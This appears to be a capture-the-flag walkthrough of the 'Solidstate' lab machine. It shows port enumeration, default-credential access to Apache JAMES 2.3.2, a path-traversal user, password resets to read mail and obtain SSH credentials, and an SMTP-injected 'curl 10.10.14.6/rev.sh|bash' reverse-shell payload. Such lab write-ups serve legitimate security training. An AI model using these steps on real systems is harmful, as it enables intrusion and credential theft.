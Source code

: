 ```yaml
---
layout: default
---
```


# Solidstate

# Enumeration

IP → 10.10.10.51

Open ports

```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCp5WdwlckuF4slNUO29xOk/Yl/cnXT/p6qwezI0ye+4iRSyor8lhyAEku/yz8KJXtA+ALhL7HwYbD3hDUxDkFw90V1Omdedbk7SxUVBPK2CiDpvXq1+r5fVw26WpTCdawGKkaOMYoSWvliBsbwMLJEUwVbZ/GZ1SUEswpYkyZeiSC1qk72L6CiZ9/5za4MTZw8Cq0akT7G+mX7Qgc+5eOEGcqZt3cBtWzKjHyOZJAEUtwXAHly29KtrPUddXEIF0qJUxKXArEDvsp7OkuQ0fktXXkZuyN/GRFeu3im7uQVuDgiXFKbEfmoQAsvLrR8YiKFUG6QBdI9awwmTkLFbS1Z
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBISyhm1hXZNQl3cslogs5LKqgWEozfjs3S3aPy4k3riFb6UYu6Q1QsxIEOGBSPAWEkevVz1msTrRRyvHPiUQ+eE=
|   256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMKbFbK3MJqjMh9oEw/2OVe0isA7e3ruHz5fhUP4cVgY
25/tcp   open  smtp    syn-ack JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.6 [10.10.14.6])
80/tcp   open  http    syn-ack Apache httpd 2.4.25 ((Debian))
|_http-title: Home - Solid State Security
|_http-server-header: Apache/2.4.25 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp  open  pop3    syn-ack JAMES pop3d 2.3.2
119/tcp  open  nntp    syn-ack JAMES nntpd (posting ok)
4555/tcp open  rsip?   syn-ack
| fingerprint-strings: 
|   GenericLines: 
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.94SVN%I=7%D=12/13%Time=6579B8A5%P=x86_64-pc-linux-gnu%
SF:r(GenericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\.3\.2
SF:\nPlease\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id:\nPa
SF:ssword:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can search in the web server but we won’t get nothing. A quicnck search for the version of JAMES gives us a Python script to gain a RCE.

# Foothold

We will follow all the steps to execute a command but manually. First we will connect to JAMES in port 4555 with the default credentials `root:root`.

 

```powershell
┌──(kali㉿kali)-[~/machines/linux/solidstate]
└─$ telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

Once this is done, the scripts needs that a user connects to the machine via SSH to exploit the vulnerability, so we will search in all mails until we find something. We create a special user and change the password of the rest of the users.

```powershell
adduser ../../../../../../../../etc/bash_completion.d exploit
set password mindy mindy
```

Then we can connect from POP3 in port 110 to check the mail. In mindy mail we will find his credentials for SSH.

```powershell
┌──(kali㉿kali)-[~/machines/linux/solidstate]
└─$ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER Mindy
+OK
pass mindy
-ERR Authentication failed.
USER mindy
+OK
pass mindy
+OK Welcome mindy
list
+OK 2 1945
1 1109
2 836
.
RETR 2
<SNIP>
username: mindy
pass: P@55W0rd1!2@
```

Now we have to trigger a reverse shell, because although we gained access to the machine via SSH, it is a restricted environment.

```powershell
┌──(kali㉿kali)-[~/machines/linux/solidstate]
└─$ telnet 10.10.10.51 25 
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Wed, 13 Dec 2023 10:33:27 -0500 (EST)
HELO CEN
250 solidstate Hello CEN (10.10.14.6 [10.10.14.6])
mail from:<mindy>
250 2.1.0 Sender <mindy@localhost> OK
rcpt to:<../../../../../../../../etc/bash_completion.d>
250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
data 
354 Ok Send data ending with <CRLF>.<CRLF>
From: mindy@localhost
'
curl 10.10.14.6/rev.sh|bash
.
250 2.6.0 Message received
quit
221 2.0.0 solidstate Service closing transmission channel
```

For priv esc there is a cron job we can abuse